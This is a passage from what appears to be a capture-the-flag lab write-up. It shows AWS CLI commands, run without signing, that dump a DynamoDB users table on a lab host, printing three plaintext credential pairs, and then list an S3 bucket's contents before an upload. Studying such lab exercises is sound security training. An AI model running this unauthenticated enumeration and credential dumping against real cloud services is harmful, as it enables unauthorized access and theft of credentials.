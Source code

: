 Now I want to dump the `users` table:

{% highlight sh %}
python2.7 /usr/bin/aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request --output text --query "Items\[*\]"
{% endhighlight %}

{% highlight text %}
PASSWORD	Management@#1@#
USERNAME	Mgmt
PASSWORD	Welcome123!
USERNAME	Cloudadm
PASSWORD	n2vM-<_K_Q:.Aa2
USERNAME	Sysadm
{% endhighlight %}

And we got 3 credentials !

I tried to connect on `SSH` with these creds but it didn't work out ! Hence, I think we're not gonna have something more from that database, but it taught us something very interesting, which is that we have more privileges that we normally should have, so it might be interesting to poke with `s3` service.

I read the doc for a while and discovered that it is possible to upload files directly from the cli. Let's try that !

First, we should list objects inside the bucket.

{% highlight sh %}
python2.7 /usr/bin/aws s3api list-objects --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request --bucket adserver
{% endhighlight %}

The server responds with a `JSON` string.

> {
    "Contents": [
        {
            "LastModified": "2020-12-15T14:10:04.000Z", 
            "ETag": "\"25118cbb11c412f4b517249e6e877dc3\"", 
            "StorageClass": "STANDARD", 
            "Key": "images/bug.jpg", 
            "Owner": {
                "DisplayName": "webfile", 
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
            }, 
            "Size": 37840
        }, 
        {
            "LastModified": "2020-12-15T14:10:04.000Z", 
            "ETag": "\"4d7905acad5d78b01085e461f78eae43\"", 
            "StorageClass": "STANDARD", 
            "Key": "images/cloud.png", 
            "Owner": {
                "DisplayName": "webfile", 
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
            }, 
            "Size": 51485
        }, 
        {
            "LastModified": "2020-12-15T14:10:04.000Z", 
            "ETag": "\"b22715647e087104f6b1ff7c0ce0731c\"", 
            "StorageClass": "STANDARD", 
            "Key": "images/malware.png", 
            "Owner": {
                "DisplayName": "webfile", 
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
            }, 